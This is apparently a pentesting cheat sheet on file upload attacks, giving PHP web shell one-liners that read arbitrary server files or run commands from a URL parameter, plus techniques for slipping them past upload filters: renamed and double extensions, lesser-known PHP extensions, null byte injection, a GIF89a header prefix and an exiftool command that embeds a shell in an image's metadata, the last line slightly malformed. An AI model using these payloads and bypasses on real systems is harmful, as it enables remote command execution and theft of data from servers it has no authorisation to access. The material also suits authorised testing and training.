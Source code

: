 ## General

Upload shell to make reverse shell
```
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
```
# Bypass file upload filtering

### Client Side
- Disable javascript
- Upload an armless file and then manipulate it in burp after it's been through all the checks
### Rename it
- upload it as shell.php.jpg
### Blacklisting bypass, change extension
- php: `phtml, .php, .php3, .php4, .php5, and .inc`
- bypassed by uploading an unpopular php extensions. such as: `pht, phpt, phtml, php3, php4, php5, php6`
- asp: `asp, .aspx`
- perl: `.pl, .pm, .cgi, .lib`
- jsp: `.jsp, .jspx, .jsw, .jsv, and .jspf`
- Coldfusion: `.cfm, .cfml, .cfc, .dbm`
### Whitelisting bypass

- Bypassed by uploading a file with some type of tricks,
- Like adding a null byte injection like `shell.php%00.gif` .
- Or by using double extensions for the uploaded file like `shell.jpg.php`
### GIF89a
If they check the content. Basically you just add the text "GIF89a;" before you shell-code. 

```
GIF89a;
<?php system($_GET['cmd']); ?>
```  

### In image
Manipulate data
   
	exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'e